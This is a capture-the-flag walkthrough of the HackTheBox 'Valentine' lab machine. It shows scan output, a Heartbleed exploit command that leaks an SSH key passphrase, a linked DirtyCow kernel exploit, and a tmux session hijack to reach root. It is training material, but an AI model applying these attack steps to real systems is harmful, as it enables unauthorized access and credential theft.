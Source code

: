 ```yaml
---
title: Velentine - HackTheBox Walkthrough
date: 2021-10-23 12:00:00 
categories: [HackTheBox,Linux]
tags: [heart,bleed,dirtycow]
img_path: /assets/img/HTB/Valentine/
image: 
  path: 00-banner.png
---
```

Hello guys, welcome back with another walkthrough, this time we'll be doing `Valentine` a retired linux machine from HackTheBox rated easy. Without further ado, let’s begin.
# Recon
## Nmap Scan
As always we'll start with a nmap scan to discover the open ports and services.
```console
$ cat nmap-scan
# Nmap 7.91 scan initiated Fri Oct 22 18:58:30 2021 as: nmap -sC -sV -v -oN nmap-scan 10.129.1.190
Increasing send delay for 10.129.1.190 from 0 to 5 due to 105 out of 349 dropped probes since last increase.
Nmap scan report for 10.129.1.190
Host is up (0.12s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 96:4c:51:42:3c:ba:22:49:20:4d:3e:ec:90:cc:fd:0e (DSA)
|   2048 46:bf:1f:cc:92:4f:1d:a0:42:b3:d2:16:a8:58:31:33 (RSA)
|_  256 e6:2b:25:19:cb:7e:54:cb:0a:b9:ac:16:98:c6:7d:a9 (ECDSA)
80/tcp  open  http     Apache httpd 2.2.22 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http Apache httpd 2.2.22 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=valentine.htb/organizationName=valentine.htb/stateOrProvinceName=FL/countryName=US
| Issuer: commonName=valentine.htb/organizationName=valentine.htb/stateOrProvinceName=FL/countryName=US
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2018-02-06T00:45:25
| Not valid after:  2019-02-06T00:45:25
| MD5:   a413 c4f0 b145 2154 fb54 b2de c7a9 809d
|_SHA-1: 2303 80da 60e7 bde7 2ba6 76dd 5214 3c3c 6f53 01b1
|_ssl-date: 2021-10-22T23:59:15+00:00; +1s from scanner time.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Oct 22 18:59:15 2021 -- 1 IP address (1 host up) scanned in 44.78 seconds
```
Three ports are open `22:SSH`,`80:HTTP`,`443:SSL\HTTP`
The services of the machine are very outdated. We can run a nmap scan to discover if any of this services are vulnerable.

![01-nmap](01-nmap.png)

The 443 port is vulnerable to `Heartbleed`

## 80 Port
The web running on the 80 port shows a woman screaming and a heart bleeding, that's why I decided use `gobuster` to find new directories.

![02-gobuster](02-gobuster.png)

The result show us some directories like `/encode` or `/decode` but the most interesting is `/dev` which contains two files, one of them is a string that is hex encoded.

![03-dev](03-dev.png)

Using `cyberchef` we are able to decode retrieving a `SSH` private key

![04-decode](04-decode.png)

To use it we need a password, I tried crack it using `ssh2john` but it didn't find the password.

## 443 Port
With this [script](https://gist.github.com/eelsivart/10174134) we can exploit `Hearbleed` against the victim machine.
```console
$ python heartbleed.py -n 100 10.129.1.190
```
After some tries running the script I finally recived the following strings.

![05-string](05-string.png)

Decode with `base64`, we get the next: `heartbleedbelievethehype`

![06-password](06-password.png)

This string could be the password of the ssh private key.

![07-ssh](07-ssh.png)

Voila!! We got shell as user hype.

# Privilage Escalation
## DirtyCow
Enumerating the box, it seems the machine is vulnerable to `dirtycow`

![09-uname](09-uname.png)

And to exploit it I used this [variant](https://github.com/FireFart/dirtycow/blob/master/dirty.c).

![10-dirty](10-dirty.png)

After execute it just access like the user `firefart` with the password `password`.

![11-firefart](11-firefart.png)

## Tmux session
Other way to escalate privileges is [hijacking](https://int0x33.medium.com/day-69-hijacking-tmux-sessions-2-priv-esc-f05893c4ded0) the root's tmux session.

With `ps -faux` we can see all the proccess running in the machine

![12-ps](12-ps.png)

Is there when appears that root has a tmux session. Attach this tmux shell using the next command.
```text
tmux -S /.devs/dev_sess
```

![13-root](13-root.png)

That’s it for now guys. Until next time.
# Resources
- https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs
- https://int0x33.medium.com/day-69-hijacking-tmux-sessions-2-priv-esc-f05893c4ded0
